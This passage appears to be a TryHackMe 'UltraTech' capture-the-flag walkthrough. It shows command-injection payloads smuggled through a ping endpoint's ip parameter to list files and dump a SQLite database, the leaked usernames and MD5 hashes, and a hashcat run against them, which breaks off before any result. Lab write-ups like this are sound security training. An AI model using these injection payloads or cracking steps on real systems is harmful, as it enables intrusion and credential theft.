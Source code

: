 `2`

## Task 3 Let the fun begin

Now that you know which services are available, it's time to exploit them!

Did you find somewhere you could try to login? Great!

Quick and dirty login implementations usually goes with poor data management.

There must be something you can do to explore this machine more thoroughly..

1. There is a database lying around, what is its filename?

`http://10.10.185.130:8081/ping?ip=127.0.0.1%20`ls%20-la``

```
ping: utech.db.sqlite: Name or service not known 
```

`utech.db.sqlite`

2. What is the first user's password hash?

* [http://10.10.185.130:8081/ping?ip=127.0.0.1%20`cat%20utech.db.sqlite`](http://10.10.185.130:8081/ping?ip=127.0.0.1%20`cat%20utech.db.sqlite`)

```
ping: ) ���(Mr00tf357a0c52799563c7c7b76c1e7543a32)Madmin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded 
```

`r00t f357a0c52799563c7c7b76c1e7543a32`

`admin 0d0ea5111e3c1def594c1684e3b9be84`

`f357a0c52799563c7c7b76c1e7543a32`

3. What is the password associated with this hash?

```
kali@kali:~/CTFs/tryhackme/UltraTech$ hashcat f357a0c52799563c7c7b76c1e7543a32 /usr/share/wordlists/rockyou.txt --force
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-1650 v3 @ 3.50GHz, 512/1493 MB allocatable, 2MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
```
